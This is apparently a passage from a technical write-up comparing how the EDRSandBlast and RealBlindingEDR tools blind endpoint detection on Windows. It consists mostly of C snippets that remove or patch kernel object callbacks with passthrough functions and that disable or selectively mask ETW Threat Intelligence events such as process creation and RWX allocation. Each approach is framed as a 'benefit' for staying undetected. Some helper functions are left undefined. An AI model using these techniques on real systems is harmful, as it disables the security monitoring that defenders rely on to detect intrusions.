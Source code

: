 **Benefit**: Reduces behavioral anomaly (some security products still functioning).

#### 3. Object Callback Patching Instead of Removal

**EDRSandBlast Approach**:
```c
// Completely removes object callback list
ProcessType->CallbackList = NULL;
```

**RealBlindingEDR Approach**:
```c
// Patches specific callback operations to return success without calling EDR
typedef struct _OB_CALLBACK_ENTRY {
    LIST_ENTRY CallbackList;
    POB_OPERATION Operations;
    POBJECT_TYPE ObjectType;
    POB_PRE_OPERATION_CALLBACK PreOperation;
    POB_POST_OPERATION_CALLBACK PostOperation;
} OB_CALLBACK_ENTRY;

// Find EDR callback entry
POB_CALLBACK_ENTRY pEdrEntry = FindEDRCallback(ProcessType);

// Replace with passthrough callback
pEdrEntry->PreOperation = &PassthroughPreOp;
pEdrEntry->PostOperation = &PassthroughPostOp;

// Passthrough returns success without EDR involvement
OB_PREOP_CALLBACK_STATUS PassthroughPreOp(PVOID Context, POB_PRE_OPERATION_INFORMATION Info) {
    return OB_PREOP_SUCCESS; // Allow operation, don't call EDR
}
```

**Benefit**: Callback registration remains intact, EDR driver appears loaded but non-functional.

#### 4. ETW Provider Masking (Not Complete Disablement)

**EDRSandBlast Approach**:
```c
// Completely disables ETW Threat Intelligence
EtwThreatIntProvRegHandle->IsEnabled = FALSE;
```

**RealBlindingEDR Approach**:
```c
// Selectively masks specific ETW event IDs
typedef struct _ETW_GUID_ENTRY {
    LIST_ENTRY ListEntry;
    ULONG EventIdCount;
    PVOID EventIdArray;
    GUID ProviderGuid;
    // ... more fields
} ETW_GUID_ENTRY;

// Find TI provider entry
PETW_GUID_ENTRY pTIProvider = FindETWProviderByGuid(&TI_PROVIDER_GUID);

// Create custom event filter (allow benign events, block malicious)
ULONG blockedEvents[] = {
    1, // Process creation
    2, // Thread creation
    10, // VirtualAlloc with RWX
    // ... add more
};

// Patch event enablement bitmap
```